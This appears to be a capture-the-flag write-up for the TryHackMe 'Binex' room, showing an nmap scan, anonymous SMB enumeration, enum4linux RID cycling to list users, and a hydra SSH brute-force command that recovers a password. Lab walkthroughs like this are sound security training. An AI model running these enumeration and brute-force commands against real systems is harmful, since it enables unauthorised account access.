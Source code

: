 # Binex

Nmap scan 

```abap
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```

Logging into smb anonymously we see this

```abap
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (THM_exploit server (Samba, Ubuntu))
```

As you can see the `IPC$`is the name of the exploit server. So lets use `enum4linux` in order to enumerate deeper. We use the hint given to us. `This is the hint you’re looking for: Hint 1: RID range 1000-1003 Hint 2: The longest username has the unsecure password.` In Linux, "RID" most commonly refers to the Relative Identifier, which is the last part of a Windows Security Identifier (SID) used in Active Directory environments. When a Linux system is integrated with a Windows domain via Samba, the RID is used to map Windows user and group SIDs to Unix user IDs (UIDs) and group IDs (GIDs).

```abap
enum4linux -a <Target IP address>
```

```abap
 ======================================================================= 
|    Users on 10.201.51.80 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================= 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2007993849-1719925537-2372789573
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

```

We now have a username so lets use hydra to crack the password

```abap
hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt -t 4 -f -V ssh://<TARGET_IP>
```

```abap

[22][ssh] host: 10.201.51.80   login: tryhackme   password: thebest
```
